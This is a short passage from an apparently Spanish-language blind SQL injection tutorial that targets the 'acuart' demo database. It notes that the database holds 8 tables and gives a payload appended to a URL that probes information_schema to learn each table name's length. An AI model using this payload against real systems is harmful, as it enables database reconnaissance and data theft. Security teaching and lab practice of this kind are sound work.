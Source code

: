 ![av. cant. tbl](/assets/img/screens/av_cant_tbl1.png)

8 tablas.

<br>
Averiguando la cantidad de caracteres de los nombres de las tablas:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND length((SELECT table_name FROM information_schema.tables WHERE table_schema = "acuart" LIMIT x,1))=x;#</font></pre>
